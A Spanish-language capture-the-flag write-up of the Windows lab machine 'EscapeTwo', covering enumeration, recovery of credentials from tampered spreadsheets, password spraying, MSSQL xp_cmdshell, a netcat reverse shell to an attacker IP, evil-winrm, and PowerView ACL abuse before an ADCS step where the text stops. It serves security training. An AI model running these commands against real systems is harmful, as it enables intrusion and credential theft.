







# Information

- Machine Name: EscapeTwo
- OS: Windows
- IP:10.129.1.36
- Difficulty: Easy

## Enumeracion

### Nmap

Escaneo inicial con `nmap`

```
nmap -p- -sS -Pn -n --open --min-rate 1000 -oG allPorts 10.129.1.36
```

```
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
1433/tcp  open  ms-sql-s         syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
47001/tcp open  winrm            syn-ack ttl 127
49664/tcp open  unknown          syn-ack ttl 127
49665/tcp open  unknown          syn-ack ttl 127
49666/tcp open  unknown          syn-ack ttl 127
49667/tcp open  unknown          syn-ack ttl 127
49681/tcp open  unknown          syn-ack ttl 127
49682/tcp open  unknown          syn-ack ttl 127
49687/tcp open  unknown          syn-ack ttl 127
49694/tcp open  unknown          syn-ack ttl 127
49716/tcp open  unknown          syn-ack ttl 127
49726/tcp open  unknown          syn-ack ttl 127
55541/tcp open  unknown          syn-ack ttl 127
```

Por los puertos 88(kerberos), 389 y 636(ldap), 139 y 445(smb), 53(DNS) se que estoy ante un entorno de Active Directory.

Escaneo mas detallado:
```
nmap -p53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389,47001,49664,49665,49666,49667,49681,49682,49687,49694,49716,49726,55541 -sCV -oN Target 10.129.1.36
```

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-01 12:36:45Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
|_ssl-date: 2025-07-01T12:38:20+00:00; -1s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
|_ssl-date: 2025-07-01T12:38:20+00:00; -1s from scanner time.
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.129.1.36:1433: 
|     Target_Name: SEQUEL
|     NetBIOS_Domain_Name: SEQUEL
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: DC01.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-07-01T12:05:31
|_Not valid after:  2055-07-01T12:05:31
| ms-sql-info: 
|   10.129.1.36:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2025-07-01T12:38:20+00:00; -1s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
|_ssl-date: 2025-07-01T12:38:20+00:00; -1s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
|_ssl-date: 2025-07-01T12:38:20+00:00; -1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49682/tcp open  msrpc         Microsoft Windows RPC
49687/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
49716/tcp open  msrpc         Microsoft Windows RPC
49726/tcp open  msrpc         Microsoft Windows RPC
55541/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Agrego los dominios `sequel.htb` y `DC01.sequel.htb` al `/etc/hosts`
### Initial Credentials

En esta maquina se nos proporciona las credenciales del usuario rose para iniciar: `rose:KxEPkKe6R8su`
### smb

Inicio confirmando que las credenciales de rose son validas para smb.

```
netexec smb sequel.htb -u "rose" -p 'KxEPkKe6R8su'
```

```       
SMB         10.129.1.36     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False) 
SMB         10.129.1.36     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su
```

y enumero los recursos compartidos a nivel de red:

```
netexec smb sequel.htb -u "rose" -p 'KxEPkKe6R8su' --shares
```

```
SMB         10.129.1.36     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False) 
SMB         10.129.1.36     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
SMB         10.129.1.36     445    DC01             [*] Enumerated shares
SMB         10.129.1.36     445    DC01             Share           Permissions     Remark
SMB         10.129.1.36     445    DC01             -----           -----------     ------
SMB         10.129.1.36     445    DC01             Accounting Department READ            
SMB         10.129.1.36     445    DC01             ADMIN$                          Remote Admin
SMB         10.129.1.36     445    DC01             C$                              Default share
SMB         10.129.1.36     445    DC01             IPC$            READ            Remote IPC
SMB         10.129.1.36     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.1.36     445    DC01             SYSVOL          READ            Logon server share 
SMB         10.129.1.36     445    DC01             Users           READ
```

el usuario rose tiene permisos de lectura en SYSVOL, Users, NETLOGON y Accounting Department; En NETLOGON y SYSVOL no encontre nada interesante.

el recurso compartido Users tiene un directorio predeterminado de usuario, nada interesante tampoco:
```
smb: \> ls
  .                                  DR        0  Sun Jun  9 15:42:11 2024
  ..                                 DR        0  Sun Jun  9 15:42:11 2024
  Default                           DHR        0  Sun Jun  9 13:17:29 2024
  desktop.ini                       AHS      174  Sat Sep 15 09:16:48 2018

                6367231 blocks of size 4096. 926805 blocks available
smb: \> ls Default\
  .                                 DHR        0  Sun Jun  9 13:17:29 2024
  ..                                DHR        0  Sun Jun  9 13:17:29 2024
  AppData                            DH        0  Sat Sep 15 09:19:00 2018
  Application Data                DHSrn        0  Sun Jun  9 03:29:57 2024
  Cookies                         DHSrn        0  Sun Jun  9 03:29:57 2024
  Desktop                            DR        0  Sat Sep 15 09:19:00 2018
  Documents                          DR        0  Sun Jun  9 03:29:57 2024
  Downloads                          DR        0  Sat Sep 15 09:19:00 2018
  Favorites                          DR        0  Sat Sep 15 09:19:00 2018
  Links                              DR        0  Sat Sep 15 09:19:00 2018
  Local Settings                  DHSrn        0  Sun Jun  9 03:29:57 2024
  Music                              DR        0  Sat Sep 15 09:19:00 2018
  My Documents                    DHSrn        0  Sun Jun  9 03:29:57 2024
  NetHood                         DHSrn        0  Sun Jun  9 03:29:57 2024
  NTUSER.DAT                          A   262144  Sun Jun  9 03:29:57 2024
  NTUSER.DAT.LOG1                   AHS    57344  Sat Sep 15 08:09:26 2018
  NTUSER.DAT.LOG2                   AHS        0  Sat Sep 15 08:09:26 2018
  NTUSER.DAT{1c3790b4-b8ad-11e8-aa21-e41d2d101530}.TM.blf    AHS    65536  Sun Jun  9 03:29:57 2024
  NTUSER.DAT{1c3790b4-b8ad-11e8-aa21-e41d2d101530}.TMContainer00000000000000000001.regtrans-ms    AHS   524288  Sun Jun  9 03:29:57 2024
  NTUSER.DAT{1c3790b4-b8ad-11e8-aa21-e41d2d101530}.TMContainer00000000000000000002.regtrans-ms    AHS   524288  Sun Jun  9 03:29:57 2024
  Pictures                           DR        0  Sat Sep 15 09:19:00 2018
  PrintHood                       DHSrn        0  Sun Jun  9 03:29:57 2024
  Recent                          DHSrn        0  Sun Jun  9 03:29:57 2024
  Saved Games                         D        0  Sat Sep 15 09:19:00 2018
  SendTo                          DHSrn        0  Sun Jun  9 03:29:57 2024
  Start Menu                      DHSrn        0  Sun Jun  9 03:29:57 2024
  Templates                       DHSrn        0  Sun Jun  9 03:29:57 2024
  Videos                             DR        0  Sat Sep 15 09:19:00 2018
```

en Accounting Department se encuentran 2 archivos .xlsx, no sabia a que formato pertenecia esa extensión, `la extencion .xlsx es el formato estándar para hojas de cálculo creadas con Microsoft Excel a partir de la versión 2007`.

Descargo los dos archivos para examinar el contenido con `LibreOffice`:

```
smbclient //10.129.1.36/"Accounting Department" -U "rose%KxEPkKe6R8su"
```

```
smb: \> ls
  .                                   D        0  Sun Jun  9 12:52:21 2024
  ..                                  D        0  Sun Jun  9 12:52:21 2024
  accounting_2024.xlsx                A    10217  Sun Jun  9 12:14:49 2024
  accounts.xlsx                       A     6780  Sun Jun  9 12:52:07 2024

                6367231 blocks of size 4096. 926275 blocks available
smb: \> prompt off
smb: \> mget *
getting file \accounting_2024.xlsx of size 10217 as accounting_2024.xlsx (44,0 KiloBytes/sec) (average 44,0 KiloBytes/sec)
getting file \accounts.xlsx of size 6780 as accounts.xlsx (29,0 KiloBytes/sec) (average 36,5 KiloBytes/sec)
```

#### Repair magic numbers

Al intentar abrir los archivos con `LibreOffice` me lanza un error de archivo corrupto:



Usando `file` identifica que los archivos son zip:

```
root@kali /home/cangrejo/Escritorio/escapetwo/content # file *.xlsx
accounting_2024.xlsx: Zip archive data, made by v4.5, extract using at least v2.0, last modified Jan 01 1980 00:00:00, uncompressed size 1284, method=deflate
accounts.xlsx:        Zip archive data, made by v2.0, extract using at least v2.0, last modified Jun 09 2024 10:47:44, uncompressed size 681, method=deflate
```

A pesar de que los archivos Exel son realmente comprimidos zip de archivos XML, tendria que mostrar algo como esto:

``` 
root@kali /home/cangrejo/Escritorio/escapetwo/content # file example.xlsx
example.xlsx: Microsoft Excel 2007+
```

Wikipedia tiene una lista de firmas [aqui](https://en.wikipedia.org/wiki/List_of_file_signatures)



```
xxd accounts.xlsx | head -n 1
```

la cabecera no coincide:

```
00000000: 5048 0403 1400 0808 0800 f655 c958 0000  PH.........U.X.
```

Abro los archivos con `hexeditor` y actualizo los primeros 4 bytes:

```
hexeditor accounts.xlsx
```




```
root@kali /home/cangrejo/Escritorio/escapetwo/content # file accounts.xlsx       
accounts.xlsx: Microsoft Excel 2007+
```

Al intentar abrir el archivo `accounts.xlsx` de nuevo ya no lanza el error y se pueden ver usuarios y contraseñas:



creo un archivo users y password para realizar un spray con `netexec`.

#### Descomprimir .xlsx

Tambien se puede hacer descomprimiendo los archivos como cualquier otro zip:

```
unzip accounts.xlsx -d accounts
```

El archivo XML `sharedStrings.xml` en el directorio `xl` contiene la credenciales:



Podemos extraer los datos de forma mas legible con el siguiente comando:

```
xmllint --xpath '//*[local-name()="t"]/text()' xl/sharedStrings.xml | awk 'ORS=NR%5?",":"\n"'
```

- `xmllint --xpath //*[local-name()="t"]` selecciona todos los elementos `<t>` ignorando namespaces.
- `awk ORS=NR%5?",":"\n"` imprime los elementos separados por `,` cada `5` con salto de linea al llegar al quinto.

```
First Name,Last Name,Email,Username,Password
Angela,Martin,angela@sequel.htb,angela,0fwz7Q4mSpurIt99
Oscar,Martinez,oscar@sequel.htb,oscar,86LxLBMgEWaKUnBG
Kevin,Malone,kevin@sequel.htb,kevin,Md9Wlq1E5bZnVDVo
NULL,sa@sequel.htb,sa,MSSQLP@ssw0rd!,
```

Antes de realizar el spray pruebo si tengo permisos para enumerar los usuarios del dominio y los agrego al archivo users:

```
netexec smb sequel.htb -u "rose" -p 'KxEPkKe6R8su' --users
```

```
SMB         10.129.1.36     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.129.1.36     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
SMB         10.129.1.36     445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                         
SMB         10.129.1.36     445    DC01             Administrator                 2024-06-08 16:32:20 0       Built-in account for administering the computer/domain
SMB         10.129.1.36     445    DC01             Guest                         2024-12-25 14:44:53 0       Built-in account for guest access to the computer/domain
SMB         10.129.1.36     445    DC01             krbtgt                        2024-06-08 16:40:23 0       Key Distribution Center Service Account
SMB         10.129.1.36     445    DC01             michael                       2024-06-08 16:47:37 0        
SMB         10.129.1.36     445    DC01             ryan                          2024-06-08 16:55:45 0        
SMB         10.129.1.36     445    DC01             oscar                         2024-06-08 16:56:36 0        
SMB         10.129.1.36     445    DC01             sql_svc                       2024-06-09 07:58:42 0        
SMB         10.129.1.36     445    DC01             rose                          2024-12-25 14:44:54 0        
SMB         10.129.1.36     445    DC01             ca_svc                        2025-07-01 17:32:28 0        
SMB         10.129.1.36     445    DC01             [*] Enumerated 9 local users: SEQUEL
```

Al realizar el spray con `netexec` revela una contraseña valida para el usuario `oscar`:

```
netexec smb sequel.htb -u users -p passwords --continue-on-success | grep -F [+]
```

```
SMB                      10.129.1.36     445    DC01             [+] sequel.htb\oscar:86LxLBMgEWaKUnBG
```

Pero parece tener los mismos permisos que el usuario `rose`.

Pruebo el mismo spray para el puerto `1433` que pertenece a una base de datos `mssql` y también son validas:

```
netexec mssql sequel.htb -u users -p passwords --continue-on-success | grep -F
```

```
netexec mssql sequel.htb -u users -p passwords --continue-on-success | grep -F [+]
MSSQL                    10.129.1.36     1433   DC01             [+] sequel.htb\oscar:86LxLBMgEWaKUnBG
```

Conexión a mssql con `mssqlclient`:

```
impacket-mssqlclient -windows-auth sequel.htb/oscar:86LxLBMgEWaKUnBG@dc01.sequel.htb
```

La opción `-windows-auth` es para realizar la autenticacion con usuarios del dominio.

```
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (SEQUEL\oscar  guest@master)>
```

Intento ejecutar comandos con `xp_cmdshell` y activarlo pero no tiene permisos:

```
SQL (SEQUEL\oscar  guest@master)> xp_cmdshell whoami
ERROR(DC01\SQLEXPRESS): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
```

```
SQL (SEQUEL\oscar  guest@master)> enable_xp_cmdshell
ERROR(DC01\SQLEXPRESS): Line 105: User does not have permission to perform this action.
ERROR(DC01\SQLEXPRESS): Line 1: You do not have permission to run the RECONFIGURE statement.
ERROR(DC01\SQLEXPRESS): Line 105: User does not have permission to perform this action.
ERROR(DC01\SQLEXPRESS): Line 1: You do not have permission to run the RECONFIGURE statement
```

Solo se encuentran bases de datos predeterminadas:

```
SQL (SEQUEL\oscar  guest@master)> SELECT name FROM sys.databases;
name     
------   
master   

tempdb   

model    

msdb     

SQL (SEQUEL\oscar  guest@master)>
```

Realizo un segundo spray en `mssql` agregando la opción `--local-auth` para usuarios creados en la propia base de datos:

```
netexec mssql --local-auth sequel.htb -u users -p passwords --continue-on-success | grep -F [+]
```

```
MSSQL                    10.129.1.36     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
```

Usuario administrador `sa` :D

## Shell como sql_svc

```
impacket-mssqlclient sequel.htb/sa:'MSSQLP@ssw0rd!'@dc01.sequel.htb
```

```
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (sa  dbo@master)>
```

`Whoami`:

```
SQL (sa  dbo@master)> enable_xp_cmdshell
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> xp_cmdshell whoami
output           
--------------   
sequel\sql_svc   

NULL             

SQL (sa  dbo@master)>
```

Para obtener una shell copiare el netcat para windows, primero creo un directorio llamado `test` en  `C:\Windows\Temp`:

```
QL (sa  dbo@master)> xp_cmdshell mkdir C:\Windows\Temp\test
```

y levanto un recurso compartido con smbserver llamado cangrejo vinculado al path actual donde tengo el `nc.exe`:

```
impacket-smbserver cangrejo $(pwd) -smb2support
```

Copio el `nc.exe` en el directorio test:

```
xp_cmdshell copy \\10.10.14.115\cangrejo\nc.exe C:\Windows\Temp\test
```

Me salta el siguiente error

```
SQL (sa dbo@master)> xp_cmdshell copy \\10.10.14.115\cangrejo\nc.exe C:\Windows\Temp\test 
output 
-------------------------------------------------------------------------------- You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
```

Para solucionar el error de acceso por autenticacion como invitado, levanto el recurso con usuario y contraseña:

```
impacket-smbserver cangrejo $(pwd) -smb2support -username cangrejo -password cangrejo123
```

y con xp_cmdshell me conecto al recurso compartido:

```
xp_cmdshell net use \\10.10.14.115\cangrejo /user:cangrejo cangrejo123
```

y ahora funciona:

```
SQL (sa  dbo@master)> xp_cmdshell copy \\10.10.14.115\cangrejo\nc.exe C:\Windows\Temp\test 
output                      
-------------------------   
        1 file(s) copied.   

NULL
```

```
SQL (sa  dbo@master)> xp_cmdshell dir C:\Windows\Temp\test
output                                               
--------------------------------------------------   
 Volume in drive C has no label.                     

 Volume Serial Number is 3705-289D                   

NULL                                                 

 Directory of C:\Windows\Temp\test                   

NULL                                                 

07/01/2025  12:05 PM    <DIR>          .             

07/01/2025  12:05 PM    <DIR>          ..            

07/01/2025  11:50 AM            59,392 nc.exe
```

Me envio una shell con nc.exe al puerto `443`:

```
SQL (sa  dbo@master)> xp_cmdshell C:\Windows\Temp\test\nc.exe -e cmd 10.10.14.115 443
```

y obtengo la shell:

```                     
listening on [any] 443 ...
connect to [10.10.14.115] from (UNKNOWN) [10.129.1.36] 63372
Microsoft Windows [Version 10.0.17763.6640]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
sequel\sql_svc
```

Nada en C:\Users

```
C:\Users>tree /f /a
tree /f /a
Folder PATH listing
Volume serial number is 3705-289D
C:.
+---Administrator
+---Public
|   +---Accounting Department
|   |       accounting_2024.xlsx
|   |       accounts.xlsx
|   |       
|   +---Documents
|   +---Downloads
|   +---Music
|   +---Pictures
|   \---Videos
+---ryan
\---sql_svc
    +---Desktop
    +---Documents
    +---Downloads
    +---Favorites
    +---Links
    +---Music
    +---Pictures
    +---Saved Games
    \---Videos
```

En `C:\SQL2019\ExpressAdv_ENU` el archivo `sql-Configuration.INI` contiene una contraseña:

```
C:\SQL2019\ExpressAdv_ENU>type sql-Configuration.INI
type sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False" 
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
```

## Shell como ryan

ejectuto un spray con la nueva contraseña y es valida para el usuario ryan:

```
netexec smb sequel.htb -u users -p 'WqSZAF6CysDQbGb3' | grep -F [+]
```

```
SMB                      10.129.1.36     445    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3
```

ryan es parte del grupo `*Remote Management Users`:

```
netexec winrm sequel.htb -u "ryan" -p 'WqSZAF6CysDQbGb3'
```

```
netexec winrm sequel.htb -u "ryan" -p 'WqSZAF6CysDQbGb3'   
WINRM       10.129.1.36     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.1.36     5985   DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 (Pwn3d!)
```

Utilizo `evil-winrm` para obtener una shell como ryan:

```
evil-winrm -i sequel.htb -u "ryan" -p 'WqSZAF6CysDQbGb3'
```

```                                       
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami
sequel\ryan
```

Flag user.txt en ryan Desktop:

```
*Evil-WinRM* PS C:\Users\ryan> type Desktop/user.txt
d48da3e4************************
*Evil-WinRM* PS C:\Users\ryan>
```

Sin privilegios interesantes ni acceso a nada que no tuviese antes:

```
*Evil-WinRM* PS C:\Users> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

## PrivEsc

### Bloodhound

Recopilo informacion del AD con netexec para bloodhound:

```
netexec ldap sequel.htb -u 'ryan' -p 'WqSZAF6CysDQbGb3' --bloodhound --collection ALL --dns-server 10.129.1.36
```

agrego como obtenidos a los usuarios rose, oscar, y ryan


ryan tiene `writeowner` sobre ca_svc, por lo que puedo cambiar el propietario de ca_svc a ryan y poder modificar el `DACL` para agregarme permisos como `GenericAll` sobre el:



Subo el modulo de `powerview.ps1` con `evil-wirm` como el usuario ryan:

```
*Evil-WinRM* PS C:\Users\ryan\Documents> upload /home/cangrejo/Escritorio/escapetwo/content/PowerView.ps1
                                        
Info: Uploading /home/cangrejo/Escritorio/escapetwo/content/PowerView.ps1 to C:\Users\ryan\Documents\PowerView.ps1
                                        
Data: 1027036 bytes of 1027036 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\ryan\Documents> ls


    Directory: C:\Users\ryan\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         7/1/2025   1:27 PM         770279 PowerView.ps1
```

Cambio el `owner` a ryan y cambio la contraseña del usuario ca_svc a cangrejo123:

```
*Evil-WinRM* PS C:\Users\ryan\Documents> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Users\ryan\Documents> Set-DomainObjectOwner  -Identity ca_svc -OwnerIdentity ryan
*Evil-WinRM* PS C:\Users\ryan\Documents> Add-DomainObjectAcl -TargetIdentity ca_svc -Rights All -PrincipalIdentity ryan
*Evil-WinRM* PS C:\Users\ryan\Documents> $UserPassword = ConvertTo-SecureString 'cangrejo123' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\ryan\Documents> Set-DomainUserPassword -Identity ca_svc -AccountPassword $UserPassword
*Evil-WinRM* PS C:\Users\ryan\Documents>
```

Comprobacion de la contraseña con netexec:

```
root@kali /home/cangrejo/Escritorio/escapetwo/content # netexec smb sequel.htb -u "ca_svc" -p 'cangrejo123'
SMB         10.129.1.36     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False) 
SMB         10.129.1.36     445    DC01             [+] sequel.htb\ca_svc:cangrejo123
```


### ADCS



El usuario ca_svc pertenece a un grupo llamado  `CERT PUBLISHERS`, por la descripcion del grupo puede estar configurado el certificate service de AD:

```
Members of this group are permitted to publish certificates to the directory
```

#### Shadow Credentials

Cada cierto tiempo la contraseña del usuario ca_svc se restablecía, a si que preferí obtener el hash NT: 

Vuelvo a importar el modulo de `PowerView.ps1` y cambio el owner a ryan:

```
*Evil-WinRM* PS C:\Users\ryan\Documents> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Users\ryan\Documents> Set-DomainObjectOwner -Identity ca_svc -OwnerIdentity ryan
